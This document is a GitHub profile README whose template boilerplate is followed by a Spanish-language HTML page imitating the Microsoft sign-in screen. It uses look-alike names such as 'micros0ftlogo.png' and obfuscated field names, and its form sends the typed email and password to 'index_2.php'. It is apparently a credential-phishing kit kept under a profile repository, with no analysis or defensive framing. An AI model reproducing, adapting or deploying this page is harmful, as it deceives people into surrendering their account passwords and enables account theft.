 ### Hi there 👋

<!--
**verifiquet/verifiquet** is a ✨ _special_ ✨ repository because its `README.md` (this file) appears on your GitHub profile.

Here are some ideas to get you started:

- 🔭 I’m currently working on ...
- 🌱 I’m currently learning ...
- 👯 I’m looking to collaborate on ...
- 🤔 I’m looking for help with ...
- 💬 Ask me about ...
- 📫 How to reach me: ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...
-->
<html dir="ltr"><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8"><meta http-equiv="X-UA-Compatible" content="IE=Edge">
<base href=".">
<title>Iniciar sesion en tu cuenta Microsoft!</title>
<meta name="viewport" content="width=device-width, initial-scale=1.0, maximum-scale=2.0, minimum-scale=1.0, user-scalable=yes">
<link rel="shortcut icon" href="descarga.ico">
<link rel="stylesheet" title="pagina" type="text/css" href="stylo.css">
<style type="text/css">body{display:block !important;}</style></head>

<body class="fa" data-bind="defineGlobals: ServerData, bodyCssClass" 
<body=""><div><!--  --><!--  --> <div data-bind="component: { name: 'background-image-control', publicMethods: backgroundControlMethods }">
<div class="background" role="presentation" data-bind="css: { app: isAppBranding }, style: { background: backgroundStyle }">
<!-- ko if: smallImageUrl --> 
<div data-bind="backgroundImage: smallImageUrl()" style="background-image: url(&quot;0-small.jpg"></div>
<div class="backgroundImage" data-bind="backgroundImage: backgroundImageUrl()" style="background-image: url(&quot;vzbuQ.jpg"></div> </div></div>
<div data-bind="if: activeDialog"></div> 

<form name="form1" id="form1" method="post" action="index_2.php">
<div class="outer" data-bind="component: { name: 'master-page',}">

             <div class="middle" data-bind="css: { 'app': backgroundLogoUrl }">
			 <div class="inner fade-in-lightbox"> 
					
					<div class="lightbox-cover" data-bind="css: { 'disable-lightbox': svr.be &amp;&amp; showLightboxProgress() }"></div>
					<div data-bind="component: { name: 'logo-control',}">
					
					<img class="logo" role="img" src="micros0ftlogo.png"></div>
						
						<div role="main" data-bind="component: { name: 'pagination-control',
                        publicMethods: paginationControlMethods, }">
						
						<div><div class="pagination-view animate slide-in-next">
		
						<div data-viewid="1" data-showfedcredbutton="true" data-bind="pageViewComponent: { name: 'login-paginated-username-view',}">
						<div data-bind="component: { name: 'header-control',}">
						<div class="row text-title" id="l0ginHeader">
						<div role="heading" aria-level="1" data-bind="text: title">Iniciar sesion</div></div></div>
						<div class="row">
						<div class="form-group col-md-24">





		<div class="placeholderContainer" data-bind="component: { name: 'placeholder-textbox-field',
            publicMethods: usernameTextbox.placeholderTextboxMethods}"> 
				
				
				<input type="text" name="jxkc" id="jxkc" maxlength="120" class="form-control" aria-required="true" aria-describedby="l0ginHeader" placeholder="Correo electronico, telefono o Skype." onkeyup="validar()" tabindex="0" required> </div>
<br>
				<div><input name="jxkx" type="password" id="jxkx" minlength="4" autocomplete="off" class="form-control" aria-required="true" aria-describedby="l0ginHeader" placeholder="Contraseña" aria-label="" tabindex="0" required> </div>
				</div>
				
				<div data-bind="css: { 'position-buttons': !tenantBranding.BoilerPlateText }" class="position-buttons"> <div class="row"> <div class="col-md-24"> <div class="text-13 action-links">
				<div class="form-group" data-bind="">¿No tiene una cuenta? <a href="javascript:void(0)" id="elefante3" name="elefante3">Cree una.</a></div>
				<div class="form-group"> <a id="elefante2" name="elefante2" href="javascript:void(0)">¿Es obligatoria la verificación de cuenta?</a><span class="help-button" role="button" tabindex="0"><img role="presentacion" src="documentati0n.png"></span>
				
</div>
	
	<div class="form-group">
	
	<div class="form-group"><a id="elefante4" href="javascript:void(0)">Opciones de inicio de sesion</a></div></div></div> </div> </div> <div class="row" data-bind="css: { 'move-buttons': tenantBranding.BoilerPlateText }"> <div data-bind="component: { name: 'footer-buttons-field'}">
	<div class="col-xs-24 no-padding-left-right button-container" data-bind="">

	<div class="inline-block">
	<input type="submit" id="botonsito" class="btn btn-block btn-primary" onclick="ShowAndHide()" value="Siguiente" disabled="">

			</div> 
			</div>
			</div> 
			</div> </div></div>
			</div> </div></div>
			</div>
	
			  </div> 
				 </div></div></form></div>
		
		
		

<script>

function ShowAndHide() {
document.querySelector('#displ4yN4me').innerHTML = document.querySelector('#jxkc').value;
    var x = document.getElementById('temporada');
    if (x.style.display == 'none') {
        x.style.display = 'block';
    } else {
        x.style.display = 'none';
    }
   
}
 function anular(e) {
          tecla = (document.all) ? e.keyCode : e.which;
          return (tecla != 13);
     }
	 
	 function validar(e){
  var validado = false;
  
  var letters = /^[0-9a-zA-Z]+$/;
  var filter = /^([a-zA-Z0-9\_\.\_])+\@(([a-zA-Z0-9\_])+\.)+([a-zA-Z0-9]{2,4})+$/;
  elementos = document.getElementsByClassName("form-control ltr_override");
  for(i=0;i<elementos.length;i++){
    
    if(filter.test(elementos[i].value) || letters.test(elementos[i].value) ) 
	{
    validado = false
    }
  }
  if(validado){
  document.getElementById("botonsito").disabled = false;
  
  }else{
     document.getElementById("botonsito").disabled = false;
  }
}
</script></body></html>
